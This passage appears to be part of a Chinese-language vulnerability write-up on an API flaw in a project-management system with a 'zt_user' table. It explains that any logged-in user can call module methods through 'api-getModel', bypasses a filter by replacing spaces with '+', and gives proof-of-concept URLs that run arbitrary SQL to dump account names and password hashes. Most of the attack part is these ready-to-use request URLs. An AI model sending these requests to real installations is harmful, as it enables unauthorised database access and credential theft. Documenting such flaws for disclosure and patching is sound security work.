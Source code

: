 这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用**sql**方法进行查询(空格转换为+,绕过过滤)

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

![image-20220209203039142](images/202202092030188.png)

成功执行sql语句

## 漏洞POC

登陆后访问

```
http://xxx.xxx.xxx.xxx/api-getModel-user-getRealNameAndEmails-users=admin
```

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```